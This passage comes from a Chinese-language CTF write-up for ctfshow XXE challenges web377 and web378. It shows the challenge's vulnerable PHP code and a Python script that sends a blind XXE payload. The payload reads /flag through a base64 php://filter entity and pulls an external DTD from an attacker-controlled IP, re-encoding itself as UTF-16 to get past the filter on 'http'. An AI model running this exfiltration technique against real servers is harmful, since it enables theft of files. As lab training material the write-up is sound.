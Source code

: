 这个过滤毫无影响捏

后面的都可以用这个**payload**打通

## web377

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:26:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    

```

过滤了**http**

yu师傅是改编码通的，这样也行😮(那过滤还有卵用)

```python
import requests

url = 'http://d8fe9822-1d64-45a4-b284-dbc3b1deb1ad.challenge.ctf.show/'
payload = """<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % aaa SYSTEM "http://1.15.107.150:7778/evil.dtd">
%aaa;
]>
<root>123</root>"""
payload = payload.encode('utf-16')
requests.post(url ,data=payload)
```



## web378
